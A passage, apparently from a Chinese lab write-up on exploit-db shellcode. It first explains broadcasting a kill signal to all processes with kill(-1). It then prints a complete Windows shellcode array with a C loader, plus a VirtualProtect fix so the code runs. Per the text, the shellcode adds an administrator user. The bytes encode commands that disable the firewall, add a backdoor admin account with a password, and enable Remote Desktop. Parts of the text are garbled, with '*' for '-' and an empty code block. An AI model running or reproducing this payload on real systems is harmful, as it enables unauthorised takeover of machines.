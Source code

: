 ```c
```
在这段代码中，`kill()`可以用来送参数`sig`指定的信号给参数`pid`指定的进程。`pid=*1`表示将信号广播传送给系统内所有的进程。这段代码的含义即，将`kill`信号发送给所有的进程，就可以完成杀死所有进程的目标。  
#### （3）[Windows/x64 * WinExec Add*Admin (ROOT/I@mR00T$) Dynamic Null*Free Shellcode](https://www.exploit*db.com/shellcodes/48252)  

* 代码：#include <windows.h>
#include <stdio.h>
```c
char code[] = \
"\x89\xe5\x83\xec\x30\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b"
"\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7"
"\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53"
"\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\xe8\x31\xc9\xfc\x8b"
"\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x0f\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4"
"\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\x31\xc0\x66\xb8\x73\x73\x50"
"\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x89\x65\xe8\xe8\xb0\xff"
"\xff\xff\x89\x45\xe4\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f"
"\x61\x64\x54\xff\x75\xfc\x8b\x45\xe4\xff\xd0\x89\x45\xe0\x31\xc0\x66\xb8\x72\x74\x50"
"\x68\x6d\x73\x76\x63\x54\x8b\x5d\xe0\xff\xd3\x89\x45\xdc\x31\xd2\x66\xba\x65\x6d\x52"
"\x68\x73\x79\x73\x74\x54\xff\x75\xdc\x8b\x45\xe4\xff\xd0\x89\x45\xd8\x31\xc9\x66\xb9"
"\x4c\x45\x51\x68\x49\x53\x41\x42\x68\x64\x65\x3d\x44\x68\x65\x20\x6d\x6f\x68\x70\x6d"
"\x6f\x64\x68\x65\x74\x20\x6f\x68\x6c\x6c\x20\x73\x68\x72\x65\x77\x61\x68\x68\x20\x66"
"\x69\x68\x6e\x65\x74\x73\x54\x8b\x45\xd8\xff\xd0\x31\xc9\x51\x68\x2f\x61\x64\x64\x68"
"\x79\x21\x21\x20\x68\x43\x40\x6e\x64\x68\x72\x6e\x55\x32\x68\x75\x20\x54\x75\x68\x69"
"\x6e\x42\x75\x68\x20\x4d\x61\x6a\x68\x75\x73\x65\x72\x68\x6e\x65\x74\x20\x54\x8b\x45"
"\xd8\xff\xd0\x31\xc9\x51\xb9\x90\x61\x64\x64\xc1\xe9\x08\x51\x68\x75\x75\x20\x2f\x68"
"\x6a\x69\x6e\x42\x68\x73\x20\x4d\x61\x68\x61\x74\x6f\x72\x68\x69\x73\x74\x72\x68\x64"
"\x6d\x69\x6e\x68\x75\x70\x20\x41\x68\x6c\x67\x72\x6f\x68\x6c\x6f\x63\x61\x68\x6e\x65"
"\x74\x20\x54\x8b\x45\xd8\xff\xd0\x31\xc9\x51\xb9\x90\x61\x64\x64\xc1\xe9\x08\x51\x68"
"\x75\x75\x20\x2f\x68\x6a\x69\x6e\x42\x68\x22\x20\x4d\x61\x68\x73\x65\x72\x73\x68\x6f"
"\x70\x20\x55\x68\x65\x73\x6b\x74\x68\x74\x65\x20\x44\x68\x52\x65\x6d\x6f\x68\x75\x70"
"\x20\x22\x68\x6c\x67\x72\x6f\x68\x6c\x6f\x63\x61\x68\x6e\x65\x74\x20\x54\x8b\x45\xd8"
"\xff\xd0\x31\xc9\x51\x68\x30\x20\x2f\x66\x68\x20\x2f\x64\x20\x68\x57\x4f\x52\x44\x68"
"\x45\x47\x5f\x44\x68\x2f\x74\x20\x52\x68\x6f\x6e\x73\x20\x68\x65\x63\x74\x69\x68\x43"
"\x6f\x6e\x6e\x68\x6e\x79\x54\x53\x68\x20\x66\x44\x65\x68\x22\x20\x2f\x76\x68\x72\x76"
"\x65\x72\x68\x6c\x20\x53\x65\x68\x6d\x69\x6e\x61\x68\x5c\x54\x65\x72\x68\x74\x72\x6f"
"\x6c\x68\x5c\x43\x6f\x6e\x68\x6c\x53\x65\x74\x68\x6e\x74\x72\x6f\x68\x6e\x74\x43\x6f"
"\x68\x75\x72\x72\x65\x68\x45\x4d\x5c\x43\x68\x53\x59\x53\x54\x68\x49\x4e\x45\x5c\x68"
"\x4d\x41\x43\x48\x68\x43\x41\x4c\x5f\x68\x59\x5f\x4c\x4f\x68\x22\x48\x4b\x45\x68\x61"
"\x64\x64\x20\x68\x72\x65\x67\x20\x54\x8b\x45\xd8\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```
* 功能：在Windows x64环境下添加管理员用户
* 执行：  
    在运行时也出现了同（1）中访问冲突的错误，同样对主函数进行修改：  
    ```c
    int main(int argc, char** argv)
    {
        int (*func)();
        DWORD dwOldProtect;
        func = (int(*)()) code;
        VirtualProtect(func, sizeof(code),PAGE_EXECUTE_READWRITE, &dwOldProtect);
        (int)(*func)();
    }
    ```